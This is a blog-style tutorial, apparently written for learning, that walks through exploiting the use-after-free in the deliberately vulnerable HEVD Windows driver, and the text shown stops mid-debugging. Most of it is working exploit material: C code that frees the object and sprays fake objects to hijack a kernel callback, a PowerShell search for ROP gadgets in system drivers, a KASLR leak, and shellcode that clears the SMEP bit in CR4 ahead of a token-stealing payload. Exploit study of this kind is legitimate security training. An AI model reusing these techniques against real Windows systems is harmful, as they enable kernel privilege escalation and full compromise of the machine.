





Use-After-Free - HEVD (+ SMEP/KASLR/GS Cookie)
Introduction
In this post we are going to deep in the attack: Use-After-Free (UAF) in a common windos vulnerable driver (HEVD). We will cover up some useful techniques of code review, debuggin and bypassing 4 used protections: Stack Canary or GS Cookie, Supervisor Mode Execution Prevention (SMEP), Kernel Address Space Layout Randomization (KASLR). We will try to analyze each protective measure in detail without making it tedious.
Environment
To make this explotation we will have two virtual machines; the victim, which contains the HEVD, is a Windows 1809 with an OS Build of 17763.1075, is useful to know the exact version to be able to calculate correctly structure offsets in vergilius and, in this case, know that the SMAP is disabled by default.
On the other hand, we are going to have a WinDBG connected to the victim machine to debug and analyze all the payloads. The setup of these two machines will not be explained here, as there are many resources available online, including on this website.
Source Analysis
As in other many walkthroughts, the code review will be with the source code from github:
https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/tree/master/Driver/HEVD/Windows
But you can also choose to open your trusted decompiler and reverse-engineer the driver, in this case, we will be focusing in the following 4 functions:
#define HEVD_IOCTL_ALLOCATE_UAF_OBJECT_NON_PAGED_POOL IOCTL(0x804)
#define HEVD_IOCTL_USE_UAF_OBJECT_NON_PAGED_POOL IOCTL(0x805)
#define HEVD_IOCTL_FREE_UAF_OBJECT_NON_PAGED_POOL IOCTL(0x806)
#define HEVD_IOCTL_ALLOCATE_FAKE_OBJECT_NON_PAGED_POOL IOCTL(0x807)Being IOCTL: CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
Struct review
Each functions, as the name suggests allocates, execute and frees an object, and allocates a fake object, but… what object? If we go to UseAfterFreeNonPagedPool.h, the driver contains the structure:
typedef struct _USE_AFTER_FREE_NON_PAGED_POOL
{
FunctionPointer Callback;
CHAR Buffer[0x54];
} USE_AFTER_FREE_NON_PAGED_POOL, *PUSE_AFTER_FREE_NON_PAGED_POOL;Also, 6 lines further we can see the Fake Object used in the IOCTL 0x807
typedef struct _FAKE_OBJECT_NON_PAGED_POOL
{
CHAR Buffer[0x54 + sizeof(PVOID)];
} FAKE_OBJECT_NON_PAGED_POOL, *PFAKE_OBJECT_NON_PAGED_POOL;Anyways, I want to comment that in the following explotation, we are going to redefine _FAKE_OBJECT_NON_PAGED_POOL to a real object:
typedef struct _FAKE_OBJECT_NON_PAGED_POOL
{
FunctionPointer Callback;
CHAR Buffer[0x54];
} FAKE_OBJECT_NON_PAGED_POOL, *PFAKE_OBJECT_NON_PAGED_POOL;Functions review
Inside UseAfterFreeNonPagedPool.c, we can take a closer look at how it works, specifically how it allocate the object and execute it.
Note
In my opinion, the driver code seems a bit confusing, so I’m going to rewrite it to make it easier to read. So all SEH (Structured Exception Handling) will be removed, but they are there to avoid BSODs.
AllocateUaF Function
In short, the function reserves a pool with a buffer filled with A’s (RtlFillMemory), and the callback receives the memory address of the buffer.
Then we store this newly allocated object in a global variable named: g_UseAfterFreeObjectNonPagedPool
NTSTATUS AllocateUaFObjectNonPagedPool(VOID)
{
NTSTATUS Status = STATUS_SUCCESS;
PUSE_AFTER_FREE_NON_PAGED_POOL UseAfterFree = NULL;
PAGED_CODE();
DbgPrint("[+] Allocating UaF Object\n");
UseAfterFree = (PUSE_AFTER_FREE_NON_PAGED_POOL)ExAllocatePoolWithTag(
NonPagedPool,
sizeof(USE_AFTER_FREE_NON_PAGED_POOL),
(ULONG)POOL_TAG
);
if (!UseAfterFree)
{
DbgPrint("[-] Unable to allocate Pool chunk\n");
Status = STATUS_NO_MEMORY;
return Status;
}
else
{
DbgPrint("[+] Pool Tag: %s\n", STRINGIFY(POOL_TAG));
DbgPrint("[+] Pool Type: %s\n", STRINGIFY(NonPagedPool));
DbgPrint("[+] Pool Size: 0x%zX\n", sizeof(USE_AFTER_FREE_NON_PAGED_POOL));
DbgPrint("[+] Pool Chunk: 0x%p\n", UseAfterFree);
}
RtlFillMemory((PVOID)UseAfterFree->Buffer, sizeof(UseAfterFree->Buffer), 0x41);
UseAfterFree->Buffer[sizeof(UseAfterFree->Buffer) - 1] = '\0';
UseAfterFree->Callback = &UaFObjectCallbackNonPagedPool;
g_UseAfterFreeObjectNonPagedPool = UseAfterFree;
DbgPrint("[+] UseAfterFree Object: 0x%p\n", UseAfterFree);
DbgPrint("[+] g_UseAfterFreeObjectNonPagedPool: 0x%p\n", g_UseAfterFreeObjectNonPagedPool);
DbgPrint("[+] UseAfterFree->Callback: 0x%p\n", UseAfterFree->Callback);
return Status;
}So, if the callback stores the function address of the buffer, it will be called, no?
UseUaF Function
And that is whay does UseUaFObjectNonPagedPool, executed what is on g_UseAfterFreeObjectNonPagedPool->Callback(), if it exists.
NTSTATUS UseUaFObjectNonPagedPool(VOID)
{
NTSTATUS Status = STATUS_UNSUCCESSFUL;
PAGED_CODE();
if (g_UseAfterFreeObjectNonPagedPool)
{
DbgPrint("[+] Using UaF Object\n");
DbgPrint("[+] g_UseAfterFreeObjectNonPagedPool: 0x%p\n", g_UseAfterFreeObjectNonPagedPool);
DbgPrint("[+] g_UseAfterFreeObjectNonPagedPool->Callback: 0x%p\n", g_UseAfterFreeObjectNonPagedPool->Callback);
DbgPrint("[+] Calling Callback\n");
if (g_UseAfterFreeObjectNonPagedPool->Callback)
g_UseAfterFreeObjectNonPagedPool->Callback();
Status = STATUS_SUCCESS;
}
return Status;
}This will be displayed in the assembly as a conditional jump: jne followed with an call rcx, but that’s a problem for your future self.
After seeing this both functions, you will be asking, but why is this vulnerable to UAF, it only executes a buffer in a secure structure and you are right, the vulnerability shows in the FreeUaFObjectNonPagedPool function.
FreeUaF Function
Here is where the problem begins, when the object is freed the g_UseAfterFreeObjectNonPagedPool still holds the reference to a dangling pointer, that you can abuse to overwrite whatever you want and execute directly a shellcode (but luckily we have SMEP activated so we can’t execute directly a shellcode)
NTSTATUS FreeUaFObjectNonPagedPool(VOID)
{
NTSTATUS Status = STATUS_UNSUCCESSFUL;
PAGED_CODE();
if (g_UseAfterFreeObjectNonPagedPool)
{
DbgPrint("[+] Freeing UaF Object\n");
DbgPrint("[+] Pool Tag: %s\n", STRINGIFY(POOL_TAG));
DbgPrint("[+] Pool Chunk: 0x%p\n", g_UseAfterFreeObjectNonPagedPool);
ExFreePoolWithTag((PVOID)g_UseAfterFreeObjectNonPagedPool, (ULONG)POOL_TAG);
Status = STATUS_SUCCESS;
}
return Status;
}SMEP (brief explanation)
SMEP also know as Supervisor Mode Execution Preventions, is the protection encharged to avoid the kernel to execute code in user-mode space. To see if it is active you can check the 20th bit of the Control Register 4 (cr4), it is enable if the bit is up, in other words, their value is non-zero.
For more detailed explication of the protection please check j00ru’s blog: https://j00ru.vexillium.org/2011/06/smep-what-is-it-and-how-to-beat-it-on-windows/
AllocateFake Function
No detailed explanation, allocates fake object.
NTSTATUS AllocateFakeObjectNonPagedPool(_In_ PFAKE_OBJECT_NON_PAGED_POOL UserFakeObject)
{
NTSTATUS Status = STATUS_SUCCESS;
PFAKE_OBJECT_NON_PAGED_POOL KernelFakeObject = NULL;
PAGED_CODE();
DbgPrint("[+] Creating Fake Object\n");
KernelFakeObject = (PFAKE_OBJECT_NON_PAGED_POOL)ExAllocatePoolWithTag(
NonPagedPool,
sizeof(FAKE_OBJECT_NON_PAGED_POOL),
(ULONG)POOL_TAG
);
if (!KernelFakeObject)
{
DbgPrint("[-] Unable to allocate Pool chunk\n");
Status = STATUS_NO_MEMORY;
return Status;
}
else
{
DbgPrint("[+] Pool Tag: %s\n", STRINGIFY(POOL_TAG));
DbgPrint("[+] Pool Type: %s\n", STRINGIFY(NonPagedPool));
DbgPrint("[+] Pool Size: 0x%zX\n", sizeof(FAKE_OBJECT_NON_PAGED_POOL));
DbgPrint("[+] Pool Chunk: 0x%p\n", KernelFakeObject);
}
ProbeForRead(
(PVOID)UserFakeObject,
sizeof(FAKE_OBJECT_NON_PAGED_POOL),
(ULONG)__alignof(UCHAR)
);
RtlCopyMemory(
(PVOID)KernelFakeObject,
(PVOID)UserFakeObject,
sizeof(FAKE_OBJECT_NON_PAGED_POOL)
);
KernelFakeObject->Buffer[sizeof(KernelFakeObject->Buffer) - 1] = '\0';
DbgPrint("[+] Fake Object: 0x%p\n", KernelFakeObject);
return Status;
}Initial Analysis
I was surprise when taking resources for this blogs the amount of exhaustive walkthoughts doing Heap Grooming or techniques like: Heap Fengshui. For the exploit of this UAF is not necesary, but useful for other complex attacks, despite talking about this technique is a very soft way to understand how the kernel heap, also known as kernel pools, works in.
How ExAllocatePool works
This function routine allocates pool memory of the specified type and returns a pointer to the allocated block, in other words is like the malloc you are used while writing user-mode scripts.
Each pool has its own tag, usually this tag shows up where the pool come from, what is used for, or any identification, anyways you can see more in the microsoft wiki.
https://techcommunity.microsoft.com/blog/askperf/an-introduction-to-pool-tags/372983
In UAF HEVD exploitation, we pay close attention to the Non-Paged Pool. When the driver frees an object but keeps a “dangling pointer” to it, we need to “occupy” that exact memory address before the driver uses it again.
Thats why Named Pipes are used in this kernel vulnerabilites. Functions like ExAllocatePoolWithTag take a NumberOfBytes argument. By using Pipes, an attacker can trigger allocations of an arbitrary size. If we spray the pool with objects that match the size of the freed HEVD object, the Pool Manager is highly likely to place our controlled data in the recently vacated slot. This technique is known as Pool Reclaiming, and it allows us to hijack the execution flow when the driver eventually follows that dangling pointer.
If you have payed attention, its exactly the same functionality as an Use-After-Free in user-mode. To conclude, we need to know that the kernel adds a Pool Header (usually 0x10 bytes of length in x64), so if an object size if 0x50, you will allocate 0x60 bytes.
PoolMoonX
With the tool: PoolMoonX of Pavel Yosifovich, we are able to list all the pools of the operative system. If we monitor the pool tag: Non-Paged, NpFr, we can see the number of Allocs and the size in Bytes.

We can also create 10 pipes to see if the number of allocations changes:

In this case, only 100 of new allocations occurs, but you can increment the iterations in a for-loop to allocate more and more pools to collapse the kernel.
Flow Hijacking
Once we know the theory we are able to hijack the value of the callback, to debug and see its changes you can use DebugView Tool, for being able to watch DbgPrint messages from the vulnerable driver.

#include "UAFHEVD.h"
#include <windows.h>
#include <Psapi.h>
#include <stdio.h>
#include <stdlib.h>
int main() {
DWORD bytesReturned = 0;
HANDLE hFile = CreateFile(
L"\\\\.\\HackSysExtremeVulnerableDriver",
GENERIC_READ | GENERIC_WRITE,
FILE_SHARE_READ | FILE_SHARE_WRITE,
NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL
);
if (hFile == INVALID_HANDLE_VALUE) {
printf("[-] Driver not found: %d\n", GetLastError());
return 1;
}
printf("[+] Driver handle: 0x%p\n", hFile);
// Allocate the UAF object
printf("[*] Allocating UAF Object...\n");
DeviceIoControl(hFile, HEVD_IOCTL_ALLOCATE_UAF_OBJECT_NON_PAGED_POOL,
NULL, 0, NULL, 0, &bytesReturned, NULL);
printf("[+] UAF Object allocated\n");
// Free
printf("[*] Freeing UAF Object...\n");
DeviceIoControl(hFile, HEVD_IOCTL_FREE_UAF_OBJECT_NON_PAGED_POOL,
NULL, 0, NULL, 0, &bytesReturned, NULL);
printf("[+] Dangling pointer live\n");
PFAKE_OBJECT_NON_PAGED_POOL fakeObj = (PFAKE_OBJECT_NON_PAGED_POOL)malloc(sizeof(FAKE_OBJECT_NON_PAGED_POOL));
fakeObj->Callback = 0xDEADBEEFDEADBEEF;
RtlFillMemory(fakeObj->Buffer, sizeof(fakeObj->Buffer),0x59); // Fill with Y
printf("[*] Spraying %d fake objects...\n", 5000);
for (int i = 0; i < 5000; i++) {
if (!DeviceIoControl(
hFile,
HEVD_IOCTL_ALLOCATE_FAKE_OBJECT_NON_PAGED_POOL,
fakeObj, sizeof(FAKE_OBJECT_NON_PAGED_POOL),
NULL, 0, &bytesReturned, NULL))
{
printf("[-] AllocateFakeObject[%d] failed: %d\n", i, GetLastError());
CloseHandle(hFile);
return 1;
}
}
printf("[+] Spray done\n");
// Trigger
printf("[*] Triggering UAF...\n");
DeviceIoControl(hFile, HEVD_IOCTL_USE_UAF_OBJECT_NON_PAGED_POOL,
NULL, 0, NULL, 0, &bytesReturned, NULL);
CloseHandle(hFile);
return 0;
}Also you can see the flow hijacking from Windbg, if you pay attention in the rcx value you will see the content: 0xdeadbeefdeadbeef:
Note
The breakpoint was set in HEVD!UseUaFObjectNonPagedPool+0x82; Exactly in the jne address.

Furthermore, we can see the relation between the register rax and rcx., being rax a pointer to the allocated object:
3: kd> dq rax
ffffc18f`ce7a52d0 deadbeef`deadbeef 59595959`59595959
ffffc18f`ce7a52e0 59595959`59595959 59595959`59595959
ffffc18f`ce7a52f0 59595959`59595959 59595959`59595959
ffffc18f`ce7a5300 59595959`59595959 59595959`59595959
ffffc18f`ce7a5310 59595959`59595959 59595959`59595959
ffffc18f`ce7a5320 00595959`59595959 00000000`00414141
ffffc18f`ce7a5330 6b636148`02070000 00000000`00000000
ffffc18f`ce7a5340 deadbeef`deadbeef 59595959`59595959At the moment, people usually inserts the payload address of usermode in RCX, so the program jumps to the shellcode and execute it. The problems comes with SMEP, as we said earlier you can’t execute code in userland throught kerne, thus we can obtain a gadget to execute the whatever is in: ffffc18fce7a52d8 being: [rax+0x10] or rcx + 0x10.
Doing this, all the code will be executed in the pool with RWX permissions.
Finding gadget
As we metioned before, we need to search to any assembly code in the kernel or drivers from Windows that adds 0x10 bytes to the rax register and later execute it.
Register schema
After continuing I want to show you how registers works a little to dont be confuse if you ever seen a ch or dl register:

Additionally, here a table with all 16 registers
| Registro (64-bit) | 32-bit (low) | 16-bit (low) | 8-bit High | 8-bit Low |
|---|---|---|---|---|
| RAX (Accumulator) | EAX |
AX |
AH |
AL |
| RBX (Base) | EBX |
BX |
BH |
BL |
| RCX (Counter) | ECX |
CX |
CH |
CL |
| RDX (Data) | EDX |
DX |
DH |
DL |
| RSI | ESI |
SI |
SIL |
Source Index |
| RDI | EDI |
DI |
DIL |
Destination Index |
| RBP | EBP |
BP |
BPL |
Base Pointer |
| RSP | ESP |
SP |
SPL |
Stack Pointer |
| R8 | R8D |
R8W |
R8B |
|
| R9 | R9D |
R9W |
R9B |
|
| R10 | R10D |
R10W |
R10B |
|
| R11 | R11D |
R11W |
R11B |
|
| R12 | R12D |
R12W |
R12B |
|
| R13 | R13D |
R13W |
R13B |
|
| R14 | R14D |
R14W |
R14B |
|
| R15 | R15D |
R15W |
R15B |
ropper.py
With this tool, we are able to search inside any file to find the gadget that we want, having the VRA of the assembly code relative to the specified file.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Windows\system32> py -m ropper --file .\ntoskrnl.exe --search "add al, 0x10; call rax;"
[INFO] Load gadgets for section: .text
[LOAD] loading... 100%
[INFO] Load gadgets for section: KVASCODE
[LOAD] loading... 100%
[INFO] Load gadgets for section: RETPOL
[LOAD] loading... 100%
[INFO] Load gadgets for section: INITKDBG
[LOAD] loading... 100%
[INFO] Load gadgets for section: POOLCODE
[LOAD] loading... 100%
[INFO] Load gadgets for section: PAGELK
[LOAD] loading... 100%
[INFO] Load gadgets for section: PAGE
[LOAD] loading... 100%
[INFO] Load gadgets for section: PAGEKD
[LOAD] loading... 100%
[INFO] Load gadgets for section: PAGEVRFY
[LOAD] loading... 100%
[INFO] Load gadgets for section: PAGEHDLS
[LOAD] loading... 100%
[INFO] Load gadgets for section: PAGEBGFX
[LOAD] loading... 100%
[INFO] Load gadgets for section: INIT
[LOAD] loading... 100%
[INFO] Load gadgets for section: INITDATA
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: add al, 0x10; call rax;Since I couldn’t find the gadget in the main drivers loaded on the system or in the kernel, I decided to write the following PowerShell script to find the gadget I wanted.
$driversPath = "$env:SystemRoot\System32\drivers"
$searchPattern = "add al, 0x10; call rax;"
$outputFile = "ropper_results.txt"
"" | Out-File $outputFile
Write-Host "Starting search for '$searchPattern' in $driversPath..." -ForegroundColor Cyan
$drivers = Get-ChildItem -Path $driversPath -Filter *.sys
foreach ($driver in $drivers) {
Write-Host "Analyzing: $($driver.Name)..." -ForegroundColor Gray
$result = py -m ropper --file "$($driver.FullName)" --search "$searchPattern" --nocolor 2>$null
if ($result -match $searchPattern) {
"--- DRIVER: $($driver.Name) ---" | Out-File $outputFile -Append
$result | Out-File $outputFile -Append
" `n" | Out-File $outputFile -Append
Write-Host "[!] Gadget founded in $($driver.Name)" -ForegroundColor Green
}
}
Write-Host "Process completed. Results saved in $outputFile" -ForegroundColor YellowAfter executing this code, I obtained the perfect gadget!
--- DRIVER: cng.sys ---
0x00000001c000c7e1: add al, 0x10; call rax; To avoid any false hopes, let’s verify that the driver is active and running on the system by default. To do this, we’ll use the following command:
PS C:\Windows\system32> .\driverquery.exe /v | findstr "cng.sys"
Module Name Display Name Description Driver Type Start Mode State Status Accept Stop Accept Pause Paged Pool(bytes) Code(bytes) BSS(bytes) Link Date Path Init(bytes)
============ ====================== ====================== ============= ========== ========== ========== =========== ============ ================= =========== ========== ====================== ================================================ ===========
CNG CNG CNG Kernel Boot Running OK TRUE FALSE 0 561,152 0 C:\Windows\system32\Drivers\cng.sys 4,096Once everything has been verified, we can use the gadget to redirect the program’s flow to our shellcode/payload, bypassing SMEP
Applying gadget
Now, we have the VRA address from the gadget: 0x00000001c000c7e1 but we need the offset of the gadget relative from the base address of cng.sys.
Using DetectItEasy we can obtain the base address of the driver and obtain the real offset: cng.sys+0xc7e1

By reading it we cant identify the gadget we wanted, I think because as it is call rax, windbg precalculates the address and with some cache or something, it stores it incorrectly, but well, the jump to our ROP chain will run correctly.
0: kd> uu cng.sys+0xc7e1
cng!BCryptHashData+0x3ef1:
fffff802`294867e1 0410 add al,10h
fffff802`294867e3 e8f8ba0a00 call fffff802`295322e0
fffff802`294867e8 396c2454 cmp dword ptr [rsp+54h],ebp
fffff802`294867ec 0f8556010000 jne cng!BCryptHashData+0x4058 (fffff802`29486948)
fffff802`294867f2 448b6c2444 mov r13d,dword ptr [rsp+44h]
fffff802`294867f7 eb1b jmp cng!BCryptHashData+0x3f24 (fffff802`29486814)
fffff802`294867f9 8bc3 mov eax,ebx
fffff802`294867fb 0fafc1 imul eax,ecxBypassing KASRL
Using the function getBaseAddr from the blog: https://vuln.dev/windows-kernel-exploitation-hevd-x64-use-after-free/, we can obtain the base address of any file, in this case, the driver cng.sys, here a full code to obtain the leak:
#include <windows.h>
#include <Psapi.h>
ULONGLONG getBaseAddr(LPCWSTR drvName) {
LPVOID drivers[512];
DWORD cbNeeded;
int nDrivers, i = 0;
if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
WCHAR szDrivers[512];
nDrivers = cbNeeded / sizeof(drivers[0]);
for (i = 0; i < nDrivers; i++) {
if (GetDeviceDriverBaseName(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
if (wcscmp(szDrivers, drvName) == 0) {
return (ULONGLONG)drivers[i];
}
}
}
}
return 0;
}
int main() {
ULONGLONG cngBase = getBaseAddr(L"cng.sys");
ULONGLONG CALL_RAX_GADGET = cngBase + 0x00c7e1;
printf("[*] leaked cng.sys base @ 0x%016llx\n", cngBase);
printf("[*] Gadget address @ 0x%016llx\n", CALL_RAX_GADGET);
return 0;
}Executing 1st shellcode
I will provide the final code, the unique difference will be the line 7 with the value of the shellcode, as it is my first time doing a shellcode in my entire life I wanted to document it a little haha.
#include "UAFHEVD.h"
#include <windows.h>
#include <Psapi.h>
#include <stdio.h>
#include <stdlib.h>
unsigned char shellcode[] = "\x90\x90\x90\x90\x90\x90\x90\x90\x0F\x20\xE0\x48\x25\xFF\xFF\xEF\xFF\x0F\x22\xE0\xC3";
ULONGLONG getBaseAddr(LPCWSTR drvName) {
LPVOID drivers[512];
DWORD cbNeeded;
int nDrivers, i = 0;
if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
WCHAR szDrivers[512];
nDrivers = cbNeeded / sizeof(drivers[0]);
for (i = 0; i < nDrivers; i++) {
if (GetDeviceDriverBaseName(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
if (wcscmp(szDrivers, drvName) == 0) {
return (ULONGLONG)drivers[i];
}
}
}
}
return 0;
}
int main() {
DWORD bytesReturned = 0;
HANDLE hFile = CreateFile(
L"\\\\.\\HackSysExtremeVulnerableDriver",
GENERIC_READ | GENERIC_WRITE,
FILE_SHARE_READ | FILE_SHARE_WRITE,
NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL
);
if (hFile == INVALID_HANDLE_VALUE) {
printf("[-] Driver not found: %d\n", GetLastError());
return 1;
}
printf("[+] Driver handle: 0x%p\n", hFile);
// Allocate the UAF object
printf("[*] Allocating UAF Object...\n");
DeviceIoControl(hFile, HEVD_IOCTL_ALLOCATE_UAF_OBJECT_NON_PAGED_POOL,
NULL, 0, NULL, 0, &bytesReturned, NULL);
printf("[+] UAF Object allocated\n");
// Free
printf("[*] Freeing UAF Object...\n");
DeviceIoControl(hFile, HEVD_IOCTL_FREE_UAF_OBJECT_NON_PAGED_POOL,
NULL, 0, NULL, 0, &bytesReturned, NULL);
printf("[+] Dangling pointer live\n");
// Build fake object:
PFAKE_OBJECT_NON_PAGED_POOL fakeObj = (PFAKE_OBJECT_NON_PAGED_POOL)malloc(sizeof(FAKE_OBJECT_NON_PAGED_POOL));
ULONGLONG cngBase = getBaseAddr(L"cng.sys");
ULONGLONG CALL_RAX_GADGET = cngBase + 0x0c7e1;
printf("[*] leaked cng.sys base @ 0x%016llx\n", cngBase);
printf("[*] Gadget address @ 0x%016llx\n", CALL_RAX_GADGET);
fakeObj->Callback = (PVOID)CALL_RAX_GADGET;
ULONGLONG userFA = (ULONGLONG)TokenStealingPayloadPsReferencePrimaryToken;
memcpy(&shellcode[13], &userFA, sizeof(ULONGLONG));
printf("[*] Size of the shellcode: %zx\n", sizeof(shellcode));
if (sizeof(shellcode) <= sizeof(fakeObj->Buffer))
memcpy(fakeObj->Buffer, shellcode, sizeof(shellcode));
else
printf("[-] Size of shellcode bigger than the buffer space\n");
printf("Userland payload @ 0x%016llx\n", &userFA);
printf("[*] Spraying %d fake objects...\n", 100000);
for (int i = 0; i < 5000; i++) {
if (!DeviceIoControl(
hFile,
HEVD_IOCTL_ALLOCATE_FAKE_OBJECT_NON_PAGED_POOL,
fakeObj, sizeof(FAKE_OBJECT_NON_PAGED_POOL),
NULL, 0, &bytesReturned, NULL))
{
printf("[-] AllocateFakeObject[%d] failed: %d\n", i, GetLastError());
CloseHandle(hFile);
return 1;
}
}
printf("[+] Spray done\n");
// Trigger
printf("[*] Triggering UAF...\n");
DeviceIoControl(hFile, HEVD_IOCTL_USE_UAF_OBJECT_NON_PAGED_POOL,
NULL, 0, NULL, 0, &bytesReturned, NULL);
CloseHandle(hFile);
return 0;
}Also the header file:
#include <stdio.h>
#include <Windows.h>
#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_ALLOCATE_UAF_OBJECT_NON_PAGED_POOL IOCTL(0x804)
#define HEVD_IOCTL_USE_UAF_OBJECT_NON_PAGED_POOL IOCTL(0x805)
#define HEVD_IOCTL_FREE_UAF_OBJECT_NON_PAGED_POOL IOCTL(0x806)
#define HEVD_IOCTL_ALLOCATE_FAKE_OBJECT_NON_PAGED_POOL IOCTL(0x807)
#define UAF_OBJECT_DATA_SIZE 0x5C
#define UAF_CALLBACK_OFFSET 0x00
#define UAF_BUFFER_FIELD_SIZE 0x54
#pragma pack(push, 1)
typedef struct _FAKE_OBJECT_NON_PAGED_POOL {
PVOID Callback;
CHAR Buffer[UAF_BUFFER_FIELD_SIZE];
} FAKE_OBJECT_NON_PAGED_POOL, * PFAKE_OBJECT_NON_PAGED_POOL;
#pragma pack(pop)
static_assert(sizeof(FAKE_OBJECT_NON_PAGED_POOL) == UAF_OBJECT_DATA_SIZE,
"Size mismatch!");From now on, I recommend keeping this website open so you can see the opcodes and assembly code side by side:
https://defuse.ca/online-x86-assembler.htm
The first shellcode that works me were:
0: 90 nop
1: 90 nop
2: 90 nop
3: 90 nop
4: 90 nop
5: 90 nop
6: 90 nop
7: 90 nop
8: 0f 20 e0 mov rax,cr4
b: 48 25 ff ff ef ff and rax,0xffffffffffefffff
11: 0f 22 e0 mov cr4,rax
14: c3 retYou will be asking, why do you have 8 nops? We use that for padding, if you have been paying attention in the gadget we have add al,0x10 and the size of a void pointer is 0x08, so we need to ignore another 0x08 bytes to aling. Once we execute that, the SMEP will be disabled:
6: kd> t
ffff8c05`a9a9a3f0 0f20e0 mov rax,cr4
6: kd> t
